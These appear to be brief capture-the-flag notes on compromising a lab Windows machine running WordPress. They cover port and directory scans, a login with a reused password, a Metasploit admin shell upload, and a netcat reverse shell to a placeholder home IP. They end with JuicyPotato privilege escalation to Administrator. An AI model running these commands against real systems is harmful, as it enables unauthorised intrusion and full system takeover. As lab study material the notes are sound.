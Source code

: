 - 10.10.10.29

- nmap for open ports
	- 80: http
		- Microsoft IIS
	- 3306: mysql
		- MySQL
	- no known vulns

- website
	- gobuster
		- → /wordpress, 		
	- on the site, some searches and inputs BUT
	- since it's wordpress - run possible vulns through metasploit

- metasploit the wordpress
	- use previous password (from Vaccine postrgre)
		- `postgres:P@s5w0rd!`
		- guess the login creds combo
	- use login site `/wordpress/wp-login.php`
	- `admin:P@s5w0rd!`
	- version 5.2.1
	- `use unix/webapp/wp_admin_shell_upload)`
		- fill out options
	- → meterpreter
		- change local dir `lcd /home/username/Downloads`
		- `cd C:/inetpub/wwwroot/wordpress/wp-content/uploads`
		- `upload nc.exe`
		- set up listener
		- run the shell from target `execute -f nc.exe -a "-e cmd.exe <HOME_IP> <PORT>"`
		- reverse shell - check

 - privilege escalation
	 - `sysinfo` in meterpreter
		 - Windows Server 2016
	 - upload JuicyPotato.exe
		 - `echo STARTC:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe <HOME_IP> <PORT> > shell.bat`
	 - set up listener
	 - `JuicyPotato.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337`
	 - → you get Administrator